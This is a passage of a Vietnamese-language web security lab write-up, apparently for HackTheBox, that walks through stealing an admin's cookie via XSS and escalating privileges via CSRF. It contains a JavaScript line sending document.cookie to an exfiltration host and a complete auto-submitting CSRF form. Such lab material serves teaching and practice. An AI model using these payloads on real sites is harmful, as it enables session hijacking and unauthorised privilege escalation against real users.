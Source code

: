 Payload này sẽ tải một đoạn mã từ máy chủ khai thác. Đoạn mã này sẽ gửi cookie của quản trị viên đến máy chủ exfiltration (`exfiltrate.htb`):

```javascript
window.location = "http://exfiltrate.htb/cookiestealer?c=" + document.cookie;
```

- **Lưu payload**: Sau khi lưu payload trên máy chủ khai thác, bạn có thể kiểm tra payload bằng cách truy cập endpoint `/exploit`.
- **Chờ quản trị viên truy cập**: Khi quản trị viên mở trang guestbook, mã XSS được chèn vào sẽ tải payload từ máy chủ khai thác và gửi cookie của quản trị viên đến máy chủ exfiltration. Chúng ta có thể xem cookie bị đánh cắp tại endpoint `/log` của máy chủ `exfiltrate.htb`.

#### **2. Khởi động với CSRF**

Ứng dụng web mẫu này vẫn đang trong quá trình phát triển, nên nó không có nhiều chức năng. Tuy nhiên, chúng ta có thể thấy rằng người dùng chỉ có quyền hạn **user**, nhưng có một nút **promote** để thăng cấp người dùng.

- Khi nhấn nút này, ứng dụng web thông báo rằng chỉ quản trị viên mới có quyền thăng cấp người dùng. Tuy nhiên, endpoint này không có bất kỳ biện pháp bảo vệ nào chống lại **CSRF**, điều này cho phép chúng ta thực hiện một cuộc tấn công CSRF để yêu cầu quản trị viên thăng cấp tài khoản của chúng ta.

**Tạo form CSRF**:

```html
<html>
  <body>
    <form method="GET" action="http://csrf.vulnerablesite.htb/profile.php">
      <input type="hidden" name="promote" value="htb-stdnt" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>
```

- Form này sẽ gửi yêu cầu thăng cấp tài khoản khi người dùng bấm nút **Submit request**.

**Tự động gửi form**: Để tấn công mà không cần tương tác từ người dùng, chúng ta sẽ thêm mã JavaScript để tự động gửi form khi trang được tải:

```html
<script>
  document.forms[0].submit();
</script>
```

- **Payload hoàn chỉnh**:

```html
<html>
  <body>
    <form method="GET" action="http://csrf.vulnerablesite.htb/profile.php">
      <input type="hidden" name="promote" value="htb-stdnt" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```
